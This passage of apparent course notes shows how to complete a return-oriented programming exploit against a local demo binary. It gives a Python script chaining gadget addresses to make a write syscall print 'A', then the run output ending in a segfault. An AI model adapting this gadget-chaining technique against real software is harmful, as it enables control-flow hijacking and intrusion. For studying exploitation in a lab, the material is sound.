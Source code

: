 # Completing the Exploit

Now that you've seen what the game is like, we can finish this exploit
and write an 'A' to stdout. At this point it is only a matter of finding
the right gadgets:

``` example
user@si485H-base:demo$ cat print_A_rop.py
#!/usr/bin/python

from struct import pack

p = '+'*(0x70) #padding

#Write an A to 0x080ea060
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea060) #address to write to
p += pack('<I', 0x080bb746) #pop eax; ret
p += pack('<I', 0x41414141) #'AAAA'
p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
p += pack('<I', 0xdeadbeef) #  filler for pop ebx, will be adjust to 0x01 below

#Set eax to 0x4 and ebx to 0x1
p += pack('<I', 0x080584a6) # : xor eax, eax ; pop ebx ; ret
p += pack('<I', 0xffffffff)# set ebx to 0xfffffff
p += pack('<I', 0x080e2593) #: add al, 2 ; inc ebx ; ret (ebx=0xffffffff+1 = 0x00000000)
p += pack('<I', 0x080e2593) #: add al, 2 ; inc ebx ; ret (ebx=0x00000000+1 = 0x00000001)

#Set ecx to 0x080ea060
p += pack('<I', 0x080e4c5d) # pop ecx ; ret
p += pack('<I', 0x080ea060) #address of AAAA


#set edx to 0x1
p += pack('<I', 0x0806e97a)# pop edx ; ret
p += pack('<I', 0xffffffff)# set edx to 0xfffffff
p += pack('<I', 0x0805d0e7)# : inc edx ; ret
p += pack('<I', 0x0805d0e7)# : inc edx ; ret (now edx is 0x1)

#call interrupt
p += pack('<I', 0x0806f040) # int 0x80; ret

p += pack('<I', 0xcafebabe) # <-- segfault here

print p 
```

And then we can run it:

``` example
user@si485H-base:demo$ ./vulnerable `python print_A_rop.py`
Buf: ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++z`F?
                                                                                                                        AAAAﾭަ??????]`z??????@????
ASegmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[1564247.938610] vulnerable[11157]: segfault at cafebabe ip cafebabe sp bffff654 error 15
```
